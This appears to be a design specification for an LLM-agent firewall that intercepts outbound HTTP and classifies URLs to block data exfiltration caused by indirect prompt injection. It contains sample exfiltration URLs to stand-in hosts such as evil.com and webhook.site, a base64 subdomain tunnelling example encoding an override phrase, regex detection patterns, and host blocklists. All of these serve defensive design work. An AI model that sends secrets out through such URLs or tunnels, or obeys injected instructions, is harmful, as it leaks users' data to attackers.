

# Specification: HTTP Interception & URL Classification (SPEC-http.md)

This specification describes how `llm-fw` can be extended to intercept general HTTP/HTTPS traffic from local LLM agents, browsers, and tools, and details the available strategies and architectures for classifying and blocking malicious ("bad") URLs to prevent data exfiltration.

---

## 1. The Threat Model: Outbound URL Exfiltration

When an LLM agent operates in an environment with access to external tools (such as web search, file downloaders, or browser execution), it becomes vulnerable to **Indirect Prompt Injection** and **Exfiltration Attacks**:

```
┌─────────────────┐       ┌──────────────────────────┐       ┌─────────────────┐
│  Benign User    │ ─────►│  LLM Agent (with Tools)  │ ─────►│  Untrusted Site │
└─────────────────┘       └──────────────────────────┘       └─────────────────┘
                                       │                              │
                                       ▼                              ▼
                          ┌──────────────────────────┐       ┌─────────────────┐
                          │   Executes Injected      │ ◄──── │  Contains Hidden │
                          │   Instructions           │       │  Injection      │
                          └──────────────────────────┘       └─────────────────┘
                                       │
                                       ▼
                          ┌──────────────────────────┐
                          │   Exfiltrates Secrets    │
                          │   via Outbound HTTP call │
                          └──────────────────────────┘
                                       │
                                       ▼
                             [ https://evil.com/leak?data=BASE64_SECRET ]
```

To close this loop, `llm-fw` must not only filter input prompts but also **inspect and block outbound URL requests** made by these agent tools.

---

## 2. Part 1: Interception Architectures

To detect which URLs are being accessed, the proxy must intercept network traffic at the proper layer. We have three primary architectural options, each with distinct trade-offs:

```
┌───────────────────────────────────────────────────────────────────────────────┐
│                          Redirection Options                                  │
├───────────────────────────────┬───────────────────────────────┬───────────────┤
│ Option A: Forward Proxy       │ Option B: Transparent         │ Option C:     │
│ (HTTPS_PROXY)                 │ DNS/Port redirection          │ DOM Injection │
└───────────────────────────────┴───────────────────────────────┴───────────────┘
```

---

### Option A: HTTP/HTTPS Forward Proxy Mode (Standard)

The agent application or tool runs with standard environment variables directing traffic through `llm-fw` listening on port `8080`.



*   **Pros**: 
    *   No administrative privileges required to run.
    *   Natively supported by almost all HTTP clients (curl, Python requests, Node fetch).
    *   Enables full request/response decryption and inspection.
*   **Cons**:
    *   Relies on the agent process respecting the `HTTPS_PROXY` environment variable. Hardcoded native binaries can bypass it.

---

### Option B: Transparent DNS & Port Redirection (Sinkholing)

Instead of relying on proxy configuration variables, `llm-fw` intercepts outbound traffic at the OS network layer.

1.  **DNS Spoofing (Sinkhole)**:
    `llm-fw` dynamically intercepts DNS requests (via `/etc/hosts` or acting as a local DNS resolver) to resolve wildcard domains or specific outbound domains to `127.0.0.1`.
2.  **Port Forwarding (iptables / pf)**:
    Using local packet filters (e.g., `iptables` on Linux, `pf` on macOS, or `netsh` on Windows), all outbound TCP traffic on ports `80` and `443` is transparently forwarded to `llm-fw`'s local port.

*   **Pros**:
    *   **Un-bypassable**: Clients cannot escape the interception by ignoring environment variables.
    *   Requires zero modification to client code or runner environments.
*   **Cons**:
    *   Requires administrative/root privileges during startup.
    *   Requires client environment to trust the local root CA globally to prevent TLS handshake exceptions.

---

### Option C: DOM/Browser Level Interception

For agents utilizing headless browsers (such as Puppeteer, Playwright, or Selenium), interception is performed at the browser DOM level.

*   **Network Request Hooking**: Hooking into Playwright's `page.route('**/*', route => ...)` to intercept every outbound fetch, script, or image resource call.
*   **DOM Mutation Auditing**: Injecting a MutationObserver script to flag when the LLM dynamically injects markdown images with outbound query parameters:
    ```javascript
    // Injected DOM Exfiltration Hunter
    new MutationObserver((mutations) => {
      for (const m of mutations) {
        m.addedNodes.forEach(node => {
          if (node.tagName === 'IMG' && isExfiltrationPattern(node.src)) {
            node.src = ''; // Nullify source load immediately
            console.warn('Exfiltration image blocked:', node.src);
          }
        });
      }
    }).observe(document.body, { subtree: true, childList: true });
```

*   **Pros**:
    *   Highly targeted for web browsing agents.
    *   Detects exfiltration via DOM rendering tricks (such as hidden pixel images `` and stylesheet loads) before the request hits the network layer.
*   **Cons**:
    *   Limited strictly to browser environments; does not capture backend API/python tool calls.

---

## 3. Part 2: Strategies to Identify "Bad" URLs

Once URLs are successfully intercepted, `llm-fw` must classify whether they are malicious. To keep decisions under a **10ms budget**, we utilize a multi-layered classification strategy:

```
                  [ Outbound URL Request ]
                             │
                             ▼
            ┌─────────────────────────────────┐
            │  1. Static Feeds & Category     │  ◄── < 1ms (Fast hash lookup)
            └─────────────────────────────────┘
                             │
                             ▼
            ┌─────────────────────────────────┐
            │  2. Dynamic Query Heuristics    │  ◄── < 1ms (Regex pattern match)
            └─────────────────────────────────┘
                             │
                             ▼
            ┌─────────────────────────────────┐
            │  3. Subdomain Entropy Analysis  │  ◄── < 1ms (Shannon entropy calculation)
            └─────────────────────────────────┘
                             │
                             ▼
            ┌─────────────────────────────────┐
            │  4. WHOIS & DNS Age Reputation │  ◄── < 5ms (LRU resolver cache lookup)
            └─────────────────────────────────┘
                             │
                             ▼
            ┌─────────────────────────────────┐
            │  5. Semantic LLM Judge          │  ◄── (Sync/Async escalation)
            └─────────────────────────────────┘
```

---

### Strategy 1: Static Domain Categorization & Threat Intelligence Feeds

The proxy maintains a local lookup database (using a highly compacted Bloom Filter or Radix Tree structure for maximum performance) containing categorizations and standard threat intelligence blocklists.

*   **Threat Intel Feeds**: Consumes and caches open-source malicious domain feeds:
    *   **abuse.ch** (URLhaus, ThreatFox): High-fidelity C2 (command & control) domains and malware distribution hosts.
    *   **PhishTank / OpenPhish**: Active phishing pages and social engineering redirection endpoints.
*   **Category Blocklists**: Categorizes outbound hosts and immediately blocks:
    *   **Disposable Email / SMS services** (e.g. `temp-mail.org`, `guerrillamail.com`).
    *   **Public Request Buckets & Webhooks** (e.g. `webhook.site`, `pipedream.net`, `requestbin.com`—these are the most common endpoints used by attackers to collect exfiltrated data).
    *   **Anonymous File Sharing** (e.g. `anonfiles.com`, `mega.nz`).

---

### Strategy 2: Dynamic Query & Path Heuristics

Attackers exfiltrate text secrets by attaching them to URL components (such as query strings, URL paths, or subdomains). We can run lightweight regex heuristics on the URL itself:

*   **Query String Parameter Matching**: Match common exfiltration parameters and structural keys:
    *   `/[\?&](?:data|exfil|leak|token|secret|flag|key|pass|val|out|info)=\s*([a-zA-Z0-9+/=_-]{16,})/i` (Checks for parameter keys holding base64/hex ciphers).
*   **Structured Path Analysis**:
    *   `/\/(?:api|v1|leak|upload)\/([a-f0-9]{32,})/i` (Matches md5/hex-encoded data blocks embedded inside URL paths).
*   **Data Leak Heuristics**:
    *   Verify if the URL query string values contain high similarity with protected local environment variables, system prompts, or document chunks.

---

### Strategy 3: Subdomain Entropy Analysis (Exfiltration Tunneling)

DNS and Subdomain Tunneling works by encoding stolen secrets as subdomains, routing requests to an attacker's authoritative DNS server:
*   *Attack URL Example*: `https://aWdub3JlIGFsbCBwcmV2aW91cyBpbnN0cnVjdGlvbnM.evil.com/`

To block this, the firewall analyzes the **Shannon Entropy** of the subdomain prefixes:
1.  **Extract Subdomain Parts**:
    Given `aWdub3JlIGFsbCBwcmV2aW91cyBpbnN0cnVjdGlvbnM.evil.com`, extract the prefix: `aWdub3JlIGFsbCBwcmV2aW91cyBpbnN0cnVjdGlvbnM`.
2.  **Calculate Character Randomness**:
    Run the Shannon Entropy formula. Normal English subdomains (like `api`, `dev`, `static`) have very low entropy ($< 3.2$). Scrambled base64 or hex blocks have extremely high entropy ($> 4.8$).
3.  **Action**:
    If the subdomain entropy exceeds `4.8` (and string length $\ge 12$), immediately flag the domain as an exfiltration tunnel and **block the request**.

---

### Strategy 4: WHOIS Registration Age & DNS Reputation

Malicious command & control and exfiltration domains are frequently registered dynamically during the attack session and discarded shortly after.

*   **Domain Age Scoring**:
    When a tool accesses a domain not present in our whitelist/cache, the proxy queries local cached WHOIS records or an age resolver:
    *   Domains registered **$< 30$ days ago** receive an immediate massive threat multiplier.
    *   Domains registered **$< 24$ hours ago** are immediately blocked if the request contains any query string parameters.
*   **DNS Record Health Check**:
    Checks the DNS record configuration of the target host. Malicious endpoints often lack an `MX` record (mail exchange), have generic name servers (NS), or resolve to dynamic IP pools (e.g. residential proxy networks).

---

### Strategy 5: Semantic LLM/Judge Evaluation

When a request passes static whitelists and heuristics but contains moderate warning indicators, `llm-fw` escalates the request to the **Stage 3 Judge LLM (Ollama)**. 

The Judge is given the **User's Original Goal**, the **Active Application Prompt**, and the **Target URL / Exfiltrated Payload**:

```
[System Prompt for Judge LLM]
Analyze if the agent tool's request to the target URL is logically relevant to fulfilling the user's explicit task, or if it represents an exfiltration anomaly.

User Task: "Summarize this research paper: [pdf text]"
Agent Action: HTTP GET "https://webhook.site/a82d-3291?data=ResearchPaperSummaryText..."

Verdict: MALICIOUS (Attempting to send summary data to an untrusted endpoint unrelated to the user's task).
```

By reasoning about the **intent** of the outbound request relative to the user's scope, the Judge provides the ultimate high-finesse protection against sophisticated zero-day indirect injections.
